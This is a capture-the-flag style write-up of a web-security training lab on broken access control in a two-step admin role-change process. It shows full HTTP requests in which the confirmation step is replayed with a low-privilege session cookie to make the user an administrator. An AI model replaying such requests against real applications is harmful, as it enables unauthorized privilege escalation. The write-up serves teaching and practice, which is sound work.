








# Multi-step process with no access control on one step

## Lab Description :


## Solution :
Mostly developers implement strong acces controls in the first step but fail to ensure it in the subsequent steps , so we can take advantage of that to perform privilege escalation.

Admin user -
First can familiarize yourself with the admin panel by logging in using the credentials administrator:admin.

Then we can play around with the requests by loggin in as wiener & exploiting the flaw in the multistep process.



Once logged in , we can go to admin panel & modify other user's privileges.

We need to upgrade wiener as admin by flawed multistep process, so lets now poke around with carlos.



Step 1 in the process -
```html
POST /admin-roles HTTP/2
Host: 0abc000b0491b2cb883aa3c000610098.web-security-academy.net
Cookie: session=ZpyoZWrt5YplfvsXMA2ayoFLn3iAX9GN
User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/113.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
Content-Length: 30
Origin: https://0abc000b0491b2cb883aa3c000610098.web-security-academy.net
Referer: https://0abc000b0491b2cb883aa3c000610098.web-security-academy.net/admin
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: same-origin
Sec-Fetch-User: ?1
Te: trailers

username=carlos&action=upgrade
```
Here we upgreaded privileges of carlos.

After modifying the privileges, we get a page like this & where the request contains a additional parameter called confirmned=true,



Step 2 in the process -
```html
POST /admin-roles HTTP/2
Host: 0abc000b0491b2cb883aa3c000610098.web-security-academy.net
Cookie: session=ZpyoZWrt5YplfvsXMA2ayoFLn3iAX9GN
User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/113.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
Content-Length: 45
Origin: https://0abc000b0491b2cb883aa3c000610098.web-security-academy.net
Referer: https://0abc000b0491b2cb883aa3c000610098.web-security-academy.net/admin-roles
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: same-origin
Sec-Fetch-User: ?1
Te: trailers

action=upgrade&confirmed=true&username=wiener
```

This process of upgrading/downgrading a user's privileges has 2 steps that's why this is a multi step process.

We here have the admin's cookie - ZpyoZWrt5YplfvsXMA2ayoFLn3iAX9GN by which we can send the same request but with non admin cookie

Here note that we have a parameter called confirmed=true/false in the POST request body which takes us to /admin .

Wiener user -
So now we can try logging in as wiener using the credentials given & try to promote ourselves as administrator.

With thehelp of inspect element , we grab the cookie of wiener.



Cookie of admin - ZpyoZWrt5YplfvsXMA2ayoFLn3iAX9GN Cookie of wiener - DVWBhHWy8qAAnzPIfHLrhQmuEYDR4shV

Let send the non admin request with the admin's session cookie.

If we try to upgrade ourself(wiener) by changing the cookie value of admin to non admin in the request of first step , we get 401 - UNAUTHORIZED



But , if we try the same process in the second step ie - Confirming the action step, we get a `302 - Redirect' which means we bypassed the acces control measure & upgraded the privilege of ourselves.



Thus we solved the lab ,



#### Visit The Next Page For The Next Level :)
